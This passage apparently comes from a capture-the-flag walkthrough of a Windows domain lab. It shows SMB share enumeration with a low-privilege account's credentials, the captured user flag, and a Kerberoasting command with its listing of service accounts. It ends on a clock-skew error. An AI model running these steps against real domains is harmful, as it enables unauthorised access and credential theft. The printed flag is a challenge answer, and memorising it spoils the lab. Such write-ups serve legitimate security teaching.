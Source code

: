 We then attempt to access the `Users` share:

```bash
smbclient //SOUPEDECODE.LOCAL/Users -U ybob317
```
Info:
```
  .                                  DR        0  Mon Sep  8 00:11:15 2025
  ..                                DHS        0  Sun Sep  7 23:59:43 2025
  admin                               D        0  Fri Jul  5 00:49:01 2024
  Administrator                       D        0  Sat Jun 15 21:56:40 2024
  All Users                       DHSrn        0  Sat May  8 10:26:16 2021
  Default                           DHR        0  Sun Jun 16 04:51:08 2024
  Default User                    DHSrn        0  Sat May  8 10:26:16 2021
  desktop.ini                       AHS      174  Sat May  8 10:14:03 2021
  FileServer$                         D        0  Mon Sep  8 00:11:15 2025
  Public                             DR        0  Sat Jun 15 19:54:32 2024
  ybob317
```
This share maps to the Windows directory `C:\Users`. Inside the folder of `ybob317` we find the user flag in the `user.txt` file.

```
6bab1f09a7403980bfeb4c2b412be47b
```

This does not help us move forward. 
Now that we have valid credentials, we proceed to test additional attack paths such as a Kerberoasting attack.


# KERBEROASTING ATTACK
```bash
impacket-GetUserSPNs -request -dc-ip 10.0.4.17 SOUPEDECODE.LOCAL/ybob317:ybob317
```
Info:
```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName    Name            MemberOf  PasswordLastSet             LastLogon  Delegation 
----------------------  --------------  --------  --------------------------  ---------  ----------
FTP/FileServer          file_svc                  2024-06-17 19:32:23.726085  <never>               
FW/ProxyServer          firewall_svc              2024-06-17 19:28:32.710125  <never>               
HTTP/BackupServer       backup_svc                2024-06-17 19:28:49.476511  <never>               
HTTP/WebServer          web_svc                   2024-06-17 19:29:04.569417  <never>               
HTTPS/MonitoringServer  monitoring_svc            2024-06-17 19:29:18.511871  <never>               


[-] CCache file is not found. Skipping...
[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
